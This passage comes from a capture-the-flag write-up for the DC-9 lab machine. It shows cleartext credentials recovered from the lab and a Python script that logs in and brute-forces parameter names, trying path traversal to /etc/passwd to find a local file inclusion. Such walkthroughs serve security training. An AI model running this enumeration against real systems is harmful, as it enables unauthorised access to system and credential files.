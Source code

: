 It can be seen that a list of users with their respective passwords were obtained in plain text. 
### Local File Inclusion 

Later with the credentials **admin:transorbital1** we log in to the web application and we find a message at the bottom "File does not exist". 

![](/assets/images/DC-9/screenshot-13.png)

It is possible that a certain parameter is being called and requires include a specific file, but we do not know the parameter name, it is also possible that there's a Local File Inclusion vulnerability, in that case I developed a python script to brute force with a list of common parameters and including the web server passwd file how value, this dictionary can be found in seclists. 

```python
#!/usr/bin/python3 

import requests
from colorama import Fore,init

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

s=requests.session()

def paramenum(p):
    values={
            'username':'admin',
            'password':'transorbital1'
            }

    req=s.post("http://192.168.179.128/manage.php", data=values)
    req=s.get(f"http://192.168.179.128/manage.php?{p}=../../../../../../etc/passwd")
    return len(req.text)

wordlist=open("/opt/seclists/Discovery/Web-Content/burp-parameter-names.txt").read().splitlines()

if __name__=="__main__":
    for parameter in wordlist:
        x=paramenum(parameter)
        if x != 1341:
            print(f"{green}{parameter:20}=> {x}{reset}")
        else:
            print(f"{gray}{parameter:20}=> {x}{reset}")
```
